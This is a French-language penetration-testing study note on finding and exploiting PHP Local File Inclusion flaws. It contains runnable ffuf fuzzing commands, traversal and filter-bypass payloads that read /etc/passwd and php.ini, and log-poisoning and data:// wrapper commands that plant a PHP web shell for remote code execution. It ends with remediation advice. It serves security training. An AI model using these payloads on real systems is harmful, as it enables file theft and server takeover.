

Cette documentation détaille les méthodes d'automatisation pour l'identification et l'exploitation de vulnérabilités de type **File Inclusion**. Ces techniques s'inscrivent dans une démarche de **Web Application Enumeration** approfondie.

## Fuzzing de paramètres GET

L'identification du point d'entrée est une étape critique. L'outil **ffuf** permet de découvrir des paramètres vulnérables en testant une liste de noms de paramètres courants.

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
-u 'http://TARGET/index.php?FUZZ=value' \
-fs 2287
```

> [!warning] 
> Attention au filtrage par taille (**-fs**) qui peut masquer des erreurs 500 révélatrices.

## Fuzzing LFI (Payloads)

Une fois le paramètre identifié, l'utilisation de listes de payloads permet de tester différentes techniques d'inclusion, incluant les traversées de répertoires et les **PHP Wrappers**.

```bash
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
-u 'http://TARGET/index.php?language=FUZZ' \
-fs 2287
```

> [!note]
> Les payloads incluent des variantes comme `../../../../etc/passwd`, `%2e%2e/%2e%2e/etc/passwd`, `....//....//....//etc/passwd` et des chaînes **PHP Wrappers**.

## Fuzzing chemins sensibles

L'énumération des fichiers système et de configuration est facilitée par le ciblage de chemins spécifiques selon l'OS.

### Webroot Linux

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ \
-u 'http://TARGET/index.php?language=../../../../FUZZ/index.php' \
-fs 2287
```

### Logs et configuration Apache

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ \
-u 'http://TARGET/index.php?language=../../../../FUZZ' \
-fs 2287
```

> [!danger] 
> Risque de DoS lors de scans intensifs sur des serveurs de production. La lecture de logs peut saturer la mémoire si le fichier est volumineux.

## Analyse de la configuration PHP (allow_url_include)

La capacité à inclure des fichiers distants ou à utiliser certains wrappers dépend directement de la configuration du serveur. La directive `allow_url_include` doit être activée pour permettre l'exécution de code via des wrappers distants.

```bash
# Vérification via lecture de phpinfo() ou fichier de configuration
curl 'http://TARGET/index.php?language=php://filter/read=convert.base64-encode/resource=/etc/php/8.1/apache2/php.ini'
```

> [!tip]
> Si `allow_url_include` est à `On`, il est possible d'inclure des fichiers distants (RFI) via `http://` ou `ftp://`.

## Techniques de bypass (Null byte, encodage double, filtres)

Lorsque des filtres de sécurité sont en place, des techniques de contournement sont nécessaires pour normaliser le chemin.

### Null Byte (%00)
Utilisé pour tronquer les extensions ajoutées par le backend (ex: `.php`).
```bash
# Payload classique
?language=../../../../etc/passwd%00
```

### Encodage double
Utile si le serveur décode une première fois l'entrée avant de vérifier les caractères interdits.
```bash
# Double URL encoding du point
?language=%252e%252e%252f%252e%252e%252fetc/passwd
```

### Bypass de filtres de mots-clés
Si le mot "etc" ou "passwd" est filtré, utiliser des encodages ou des wrappers.
```bash
# Utilisation de base64 pour contourner les filtres de contenu
?language=php://filter/convert.base64-encode/resource=/etc/passwd
```

## RCE via LFI (Log Poisoning / PHP Wrappers)

L'exploitation avancée vise à transformer une LFI en exécution de code (RCE). Voir la note **Log Poisoning**.

### Log Poisoning (Apache/Nginx)
Injecter du code PHP dans les logs via l'User-Agent, puis inclure le fichier de log.
```bash
# Injection du payload dans les logs
curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/
# Inclusion du fichier de log
curl 'http://TARGET/index.php?language=/var/log/apache2/access.log&cmd=id'
```

### PHP Wrappers (data://)
Si `allow_url_include` est activé, injecter du code directement via le wrapper `data`.
```bash
curl 'http://TARGET/index.php?language=data://text/plain,<?php%20system("id");%20?>'
```

## Outils automatisés

L'utilisation d'outils spécialisés permet d'accélérer la phase d'exploitation.

### LFISuite

```bash
git clone https://github.com/D35m0nd142/LFISuite
cd LFISuite
python2 LFISuite.py -u "http://TARGET/index.php?language=FILE"
```

### liffy

```bash
git clone https://github.com/hvqzao/liffy
python3 liffy.py -u "http://TARGET/index.php?language=FILE"
```

## Lecture de code source (php://filter)

Pour extraire le code source d'un fichier PHP sans qu'il soit interprété par le serveur, l'utilisation du wrapper **php://filter** est standard.

```bash
curl 'http://TARGET/index.php?language=php://filter/read=convert.base64-encode/resource=config'
```

## Méthodologie de remédiation

Pour sécuriser une application contre les LFI, les mesures suivantes doivent être appliquées :

1. **Validation des entrées** : Utiliser des listes blanches (allow-list) strictes pour les noms de fichiers autorisés.
2. **Désactivation des wrappers** : Mettre `allow_url_fopen` et `allow_url_include` à `Off` dans le `php.ini`.
3. **Isolation** : Exécuter l'application avec des privilèges minimaux (chroot jail ou conteneurisation).
4. **Utilisation d'API sécurisées** : Éviter les fonctions comme `include()` ou `require()` avec des entrées utilisateur directes.

| Étape | Objectif |
| :--- | :--- |
| Fuzzing paramètres | Découverte du vecteur d'injection |
| Fuzzing payloads | Détection des vulnérabilités d'inclusion |
| Lecture fichiers | Extraction de fichiers de configuration et logs |
| Tests de filtres | Bypass via **PHP Wrappers**, encodage ou null bytes |
| Automatisation | Optimisation du processus d'exploitation |

Ces techniques sont complémentaires aux concepts de **Log Poisoning** et de manipulation de **PHP Wrappers** pour obtenir une exécution de code à distance.